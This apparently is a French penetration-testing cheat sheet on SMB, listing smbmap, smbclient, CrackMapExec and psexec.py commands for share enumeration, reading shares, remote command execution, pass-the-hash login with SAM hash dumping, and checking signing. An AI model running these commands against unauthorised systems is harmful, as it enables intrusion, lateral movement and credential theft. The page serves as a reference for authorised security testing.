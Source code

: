# SMB

### Enumération des partages réseau

* Lister les partages réseau d'une machine de manière anonyme :

```
smbmap -d <DOMAIN.LOCAL> -u '' -p '' -H <IP>
```

```
smbmap -H <IP>
```

* Lister les partages réseau d'une machine avec des identifiants :

```
smbmap -u "username" -p "password" -H <IP>
```

```
smbmap -u "username" -p "<NT>:<LM>" -H <IP>
```

* Lister les partages réseau de machines hors d'un domaine :

```
cme smb <IP>/<MASK> -u <USER> -p <PASS> --shares
```

* Lister les partages réseau de machines présentent au sein d'un domaine :

```
smbclient -L //<IP> -U "<DOMAIN.LOCAL>/<USERS%<PASS>"
```

### Lecture d'un partage

```
smbmap -R <REPERTOIRE> -H <IP> -A <file> -q
```

```
smbclient \\\\<IP>\\<SHARE> -U "<DOMAIN.LOCAL>/<USER>%<PASS>"
```

`ls` : lister le contenu du répertoire.

`cd` : naviguer dans le répertoire.

`get` : télécharger un fichier localement.

**Note :** _il est également possible d'accéder aux partages via l'explorateur de fichier avec le protocole `smb://`._

### Exécuter des commandes système

Il est possible d'utiliser l'option `-x` de l'outil `smbmap` pour exécuter des commandes système.

### Connexion distante

* Avec des identifiants :

```
psexec.py <DOMAIN.LOCAL>/<USER>:<PASS>@<IP>
cme smb <IP> -u '<USER>' -p '<PASSWORD>' --local-auth
```

* Avec un _hash_ (Pass The Hash):

```
cme smb -u <USER> -H <HASH> --sam <IP>/<MASK>
```

**Note :** _l'utilisateur doit disposer des droits "Administrateur local"._

### Signatures SMB

```
cme smb <IP>
```
